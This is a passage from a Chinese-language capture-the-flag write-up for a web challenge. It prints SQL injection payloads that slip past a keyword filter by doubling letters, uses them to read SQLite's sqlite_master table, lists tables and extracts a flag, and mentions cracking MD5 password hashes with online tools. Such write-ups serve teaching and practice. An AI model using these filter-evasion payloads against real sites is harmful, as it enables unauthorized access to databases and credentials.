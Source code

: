 這裡from不用oorr來藏是因為前面篩選順序的關係。全部的帳號：

```
root,admin,test,guest,info,adm,mysql,kaibro,oracle,ftp,pi,puppet,ansible,maojui,ec2,djosix,vagrant,azureuser,python,user,username,administrator
```

用同樣的方式可以拿到密碼的md5 hash，只是password要換成passwooorrrd（XDDD）

把hash丟到網路工具可以找到不少個密碼，比如說admin的密碼也是admin... 但是拿到這些沒什麼用，所以接下來檢查users裡頭有沒有其他欄位：

```
x'/oorr**oorr/unoorrion/oorr**oorr/seloorrect/oorr**oorr/1,sql,1/oorr**oorr/frfrfromomom/oorr**oorr/sqlite_master/oorr**oorr/whefrfromomre/oorr**oorr/name='users'/oorr*
payload: x' union select 1,sql,1 from sqlite_master where name='users'/*)
results: CREATE TABLE users ( id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password TEXT )
```

這樣子可以知道users裡頭各個欄位的名字：`id, username password`，然後就可以一個一個看。（都沒有flag @_@）

既然題目提示flag就在資料庫裡，但是users裡頭又沒有，只能說明flag藏在另一個table裡啦～

尋找資料庫裡所有table：

```
x'/oorr**oorr/unoorrion/oorr**oorr/seloorrect/oorr**oorr/1,group_concat(name),1/oorr**oorr/frfrfromomom/oorr**oorr/sqlite_master/oorr**oorr/whefrfromomre/oorr**oorr/type='table'/oorr*
payload: x' union select 1,group_concat(name),1 from sqlite_master where type='table'/*
results: users,sqlite_sequence,garbage
```

`sqlite_sequence`是sqlite自動創建的，用不太到，flag一定在garbage裡面。使用前面看column name的方法看garbage，得到`CREATE TABLE garbage ( id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, value TEXT )`，一樣一個一個看，最後看到在value裡頭：

![owl](pic/owl.png)

ㄏㄏ，反正我也不會用sqlmap。第一次解開SQL-I的題目真的是好爽A_A

本題心得：遇到sqlite的題目，直接想辦法讀sqlite_master就好了。

### Web - Squirrel

一點進去發現一堆漂來漂去的松鼠，底下有一些看不懂的東西：
